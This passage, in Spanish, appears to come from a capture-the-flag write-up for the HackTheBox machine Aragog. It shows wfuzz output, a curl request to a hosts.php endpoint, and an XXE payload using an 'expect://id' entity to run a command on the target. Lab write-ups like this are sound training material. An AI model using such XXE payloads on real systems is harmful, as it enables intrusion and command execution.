 ```bash
ID           Response   Lines    Word       Chars       Payload                                                         
=====================================================================

000000054:   403        11 L     32 W       290 Ch      "php"                                                           
000000056:   403        11 L     32 W       291 Ch      "html"                                                          
000024082:   200        3 L      6 W        46 Ch       "hosts - php"                                                   
^C /usr/lib/python3/dist-packages/wfuzz/wfuzz.py:80: UserWarning:Finishing pending requests...

Total time: 0
Processed Requests: 26495
Filtered Requests: 26492
Requests/sec.: 0
```

Vemos que existe un recurso denomiando **hosts.php**, por lo que accedemos  y vemos lo siguiente:

![""](/assets/images/htb-aragog/aragog_hosts.png)

"*There are 4294967294 possible hosts for*", dicha frase hace referencia a los hosts que se encuentran en una red con determinada máscara; por lo tanto encontramos relación con el archivo **test.txt** que encontramos por FTP.

Ahora, analizando un poco, vemos que el archivo **test.txt** tiene un formato en XML; buscando un poco, vemos que existe una vulnerabilidad relacionada a XML denominada XXE (XML External Entity) que podríamos probar. Para hacerlo, vamos a hacer uso de la herramienta `curl` en conjunto con el parámetro `-d` para que el sitio nos pueda leer un archivo, para este caso el **test.txt** y ver que nos arroja:

```bash
❯ curl -d @test.txt http://10.10.10.78/hosts.php

There are 62 possible hosts for 255.255.255.192
```

Podemos corroborar que el sitio es vulnerable a ataques de tipo XXE; por lo tanto en vez de que el sitio nos lea el archivo **test.txt**, vamos a buscar una forma de poder ingresar a la máquina víctima. Si quieremos saber un poco más al respecto, podemos consultar la siguiente liga:

[XML External Entity (XXE) Processing)](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)

Haciendo una pruebas, vemos que se crea una entidad llamada `xxe`, el cual lo sustituimos en el campo que es leido por el servidor, para este caso el campo `subnet_mask`.

```bash
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo
  [<!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>
```
